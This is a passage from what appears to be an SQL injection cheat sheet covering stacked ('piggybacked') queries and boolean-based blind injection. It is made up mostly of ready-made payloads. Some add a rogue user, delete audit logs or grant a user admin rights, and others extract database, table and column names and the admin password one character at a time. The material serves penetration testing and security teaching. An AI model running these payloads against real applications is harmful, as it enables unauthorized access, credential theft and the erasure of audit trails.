 ### Piggybacked Query

Executes additional SQL statements after the original query by using statement separators.

#### Statement Separators
- Semicolon (;) - Most databases
- Batch separators in specific contexts

#### Piggybacked Examples
```sql
-- Data manipulation
admin'; INSERT INTO users (username, password) VALUES ('hacker', 'password123')--

-- Data deletion
admin'; DELETE FROM audit_logs WHERE date < '2024-01-01'--

-- Multiple operations
admin'; UPDATE users SET role='admin' WHERE username='hacker'; SELECT * FROM users--
```

## Blind/Inferential SQL Injection

Blind SQL injection occurs when the application doesn't return database errors or data directly, but the attacker can infer information based on application behavior.

### Boolean-Based Blind Exploitation

Determines information by sending payloads that result in different application responses based on TRUE/FALSE conditions.

#### Boolean Logic Testing
```sql
-- Test if database exists
' AND (SELECT COUNT(*) FROM information_schema.schemata WHERE schema_name='target_db') > 0--

-- Test if table exists
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_name='users') > 0--

-- Test if column exists
' AND (SELECT COUNT(*) FROM information_schema.columns WHERE column_name='password' AND table_name='users') > 0--
```

#### Character-by-Character Extraction
```sql
-- Extract database name length
' AND LENGTH(database()) = 8--

-- Extract first character of database name
' AND ASCII(SUBSTRING(database(), 1, 1)) = 116--  -- 't'

-- Extract username length
' AND LENGTH((SELECT username FROM users LIMIT 1)) = 5--

-- Extract password character
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) = 97--  -- 'a'
```
